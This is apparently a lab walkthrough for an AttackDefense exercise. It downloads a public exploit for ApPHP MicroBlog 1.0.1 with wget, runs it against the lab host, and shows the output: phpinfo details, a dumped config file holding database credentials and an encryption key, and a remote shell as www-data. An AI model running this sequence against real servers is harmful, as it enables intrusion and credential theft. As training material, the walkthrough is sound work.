






#### 2. ApPHP MicroBlog

- This version of ApPHP MicroBlog is vulnerable to remote code execution attack. Your task is to find and exploit this vulnerability.

----












```sh
dev@box:~$ wget https://www.exploit-db.com/download/33070
--2018-12-17 19:48:55--  https://www.exploit-db.com/download/33070
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3927 (3.8K) [application/txt]
Saving to: ‘33070’

33070                                              100%[================================================================================================================>]   3.83K  --.-KB/s    in 0s

2018-12-17 19:48:55 (548 MB/s) - ‘33070’ saved [3927/3927]

dev@box:~$
dev@box:~$ mv 33070 33070.py
dev@box:~$
```

```sh
dev@box:~$ python 33070.py
  -= LOTFREE exploit for ApPHP MicroBlog 1.0.1 (Free Version) =-
original exploit by Jiko : http://www.exploit-db.com/exploits/33030/
Usage: python 33070.py http://target/blog/index.php
dev@box:~$
```

```sh
dev@box:~$ python 33070.py http://qzz8q3j5qubgmy3miu9ngsppf.public1.attackdefenselabs.com/index.php
  -= LOTFREE exploit for ApPHP MicroBlog 1.0.1 (Free Version) =-
original exploit by Jiko : http://www.exploit-db.com/exploits/33030/
[*] Testing for vulnerability...
[+] Website is vulnerable

[*] Fecthing phpinfo
	PHP Version 5.3.10-1ubuntu3.26
	System   Linux attackdefense.com 4.15.0-42-generic #45-Ubuntu SMP Thu Nov 15 19:32:57 UTC 2018 x86_64
	Loaded Configuration File   /etc/php5/apache2/php.ini
	Apache Version   Apache/2.2.22 (Ubuntu)
	User/Group   www-data(33)/33
	Server Root   /etc/apache2
	DOCUMENT_ROOT   /var/www
	PHP Version   5.3.10-1ubuntu3.26
	allow_url_fopen  On  On
	allow_url_include  Off  Off
	disable_functions  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,
	open_basedir   no value    no value
	safe_mode  Off  Off
	safe_mode_exec_dir   no value    no value
	safe_mode_gid  Off  Off
	safe_mode_include_dir   no value    no value
	safe_mode_allowed_env_vars  PHP_  PHP_
	safe_mode_protected_env_vars  LD_LIBRARY_PATH  LD_LIBRARY_PATH

[*] Fetching include/base.inc.php
<?php
			// DATABASE CONNECTION INFORMATION
			define('DATABASE_HOST', 'localhost');	        // Database host
			define('DATABASE_NAME', 'big');	        // Name of the database to be used
			define('DATABASE_USERNAME', 'root');	// User name for access to database
			define('DATABASE_PASSWORD', '');	// Password for access to database
			define('DB_ENCRYPT_KEY', '6hpq3545z7');		// Database encryption key
			define('DB_PREFIX', 'mb101_');		    // Unique prefix of all table names in the database
			?>

[*] Testing remote execution
[+] Remote exec is working with system() :)
Submit your commands, type exit to quit
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)


>
```



----

EOF